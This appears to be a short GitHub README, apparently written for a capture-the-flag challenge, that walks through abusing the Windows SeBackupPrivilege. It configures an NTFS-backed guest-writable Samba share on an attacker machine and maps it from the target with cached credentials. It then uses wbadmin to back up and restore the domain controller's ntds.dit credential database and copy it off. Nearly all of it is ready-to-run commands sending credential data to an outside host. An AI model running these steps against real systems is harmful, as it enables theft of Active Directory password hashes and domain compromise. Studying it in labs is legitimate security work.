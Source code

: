 # SeBackupPrivilege

Exploit with `SeBackupPrivilege`.

You need to setup NTFS Disk to support remote windows backup.

## 0x0 Pre-setup ntfs

```bash
# Create 2G Disk
dd if=/dev/zero of=ntfs.disk bs=1024M count=2 

# Mount disk
sudo losetup -fP ntfs.disk

# Check Mount 
losetup -a

# format ntfs
sudo mkfs.ntfs /dev/loop0

# Mount 
sudo mount /dev/loop0 smb/

# Check mount
mount | grep smb

```
## 0x1 Install and setup smb

```bash
sudo vim /etc/samba/smb.conf
```

```config

# Comment the following line
# map to guest = bad user

# add config
[mane]
   comment = mane testing
   path = /home/mane/Challenge/smb
   writeable = yes
   guest ok = yes
   read only = no
   valid users = smbuser
   write list = smbuser
   force user = root
```

```bash
# add user
sudo adduser smbuser

# set password
sudo smbpasswd -a smbuser

# restart smb
sudo service smb restart
```

## 0x2 Testing smb share
```bash
$ smbmap -u 'smbuser' -p 'password' -H 127.0.0.1

[+] IP: 127.0.0.1:445   Name: localhost                 Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        mane                                                    READ, WRITE     mane testing
        print$                                                  READ ONLY       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.19.0-Debian)
        smbuser                                                 READ ONLY       Home Directories

```

## 0x3 Mount remote PC

Cache the smb credential

```cmd
net use M: \\10.10.16.14\mane /user:smbuser password

dir M:\
```

## 0x4 Exploit

```
echo "Y" | wbadmin start backup -backuptarget:\\10.10.16.14\mane -include:c:\windows\ntds

# Look at the backup version
wbadmin get versions

# Restore the version
echo "Y" | wbadmin start recovery -version:10/09/2023-23:48 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
```

## 0x5 Finally

When Exploit ok, download ntds.dit in `C:\`.


# Reference

https://rootsecdev.medium.com/abusing-sebackupprivilege-cd5d1a88f992

https://www.youtube.com/watch?v=IfCysW0Od8w&t=2610s
